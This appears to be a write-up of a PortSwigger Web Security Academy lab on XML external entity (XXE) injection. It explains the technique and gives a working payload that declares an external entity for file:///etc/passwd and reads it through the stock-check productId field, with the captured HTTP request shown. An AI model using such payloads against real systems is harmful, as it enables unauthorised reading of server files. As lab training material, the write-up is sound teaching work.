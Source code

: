 ## Lab 01 Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/20653fe0-5306-47de-9852-879d7a9ae6ae)


## Overview :

#### Exploiting XXE to retrieve files

To perform an XXE injection attack that retrieves an arbitrary file from the server's filesystem, you need to modify the submitted XML in two ways:

- Introduce (or edit) a **DOCTYPE element that defines an external entity** containing the path to the file.
- **Edit a data value in the XML that is returned in the application's response**, to make use of the defined external entity.

For example, suppose a shopping application checks for the stock level of a product by submitting the following XML to the server:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```

The application performs no particular defenses against XXE attacks, so you can exploit the XXE vulnerability to retrieve the `/etc/passwd` file by submitting the following XXE payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

This XXE payload defines an external entity `&xxe`; whose value is the contents of the `/etc/passwd` file and uses the entity within the productId value. This causes the application's response to include the contents of the file:

```xml
Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

## Solution :

Click on one of the products & click the **checkstock** feature which is vulnerable to XXE.

The browser sends the following request.


```xml
POST /product/stock HTTP/1.1
Host: 0aa400220400046b804f17dc00d300c4.web-security-academy.net
Cookie: session=Nv6CS6L5nmAanBB776yX56ZFN4LVWnHm
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0aa400220400046b804f17dc00d300c4.web-security-academy.net/product?productId=1
Content-Type: application/xml
Content-Length: 107
Origin: https://0aa400220400046b804f17dc00d300c4.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
```

We can see that there is only 2 inputs that is passed via xml ie - **productID & storeID**.

First we declare a DOCTYPE with an external entity called xxe which retrieves the file _/etc/passwd_ - `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>` 

We can now try to reference the entity in any of the 2 inputs to see which retreives the  /etc/passwd file & displays the content in the response.

**Payload**

Since the productID value is returned in response, we refer the entitiy in between the <productID> tags.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/f85fbf17-31a9-4845-9a85-818510ec1cd9)

Thus we've solved the lab.
  
 ![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/6d811789-e3c0-4300-8978-e855a473d929)





















